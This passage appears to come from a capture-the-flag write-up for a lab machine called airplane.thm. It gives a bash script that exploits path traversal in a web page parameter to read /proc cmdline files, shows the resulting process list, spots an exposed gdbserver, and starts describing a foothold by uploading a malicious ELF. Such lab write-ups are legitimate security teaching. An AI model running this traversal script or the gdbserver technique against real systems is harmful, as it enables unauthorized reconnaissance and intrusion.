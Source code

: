 Use the following script to help with that.

```bash
#!/bin/bash

for i in $(seq 1 1000); do

    path="/proc/${i}/cmdline"

    response=$(curl -s http://airplane.thm:8000/?page=../../../..${path} -o- | tr '\000' ' ')
    if [[ -n "$response" && ! "$response" =~ "Page not found" ]]; then
        echo "${i}: ${response}"
    fi

done
```

>The original script was taken from an [0xdf writeup](https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html)

```terminal
[★]$ bash exploit.sh
1: /sbin/init splash
223: /lib/systemd/systemd-journald
263: /lib/systemd/systemd-udevd
293: /lib/systemd/systemd-networkd
300: /lib/systemd/systemd-timesyncd
307: /lib/systemd/systemd-resolved
309: /lib/systemd/systemd-timesyncd                                                                      
363: /usr/lib/accountsservice/accounts-daemon                                                            
368: /usr/sbin/acpid                                                                                     
371: avahi-daemon: running [airplane.local] 
373: /usr/sbin/cron -f                
375: /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
[...]
528: /usr/bin/gdbserver 0.0.0.0:6048 airplane 
531: /usr/bin/python3 app.py 
534: /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal 
535: /usr/sbin/ModemManager 
[....]
```

We found the process `/usr/bin/gdbserver 0.0.0.0:6048 airplane`.

It's running `gdbserver` on port 6048.

## **Foothold**

We can use the following [hacktricks page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) to exploit the `gdbserver`. This technique uses a malicious elf that we upload to the gdbserver and then run it there.
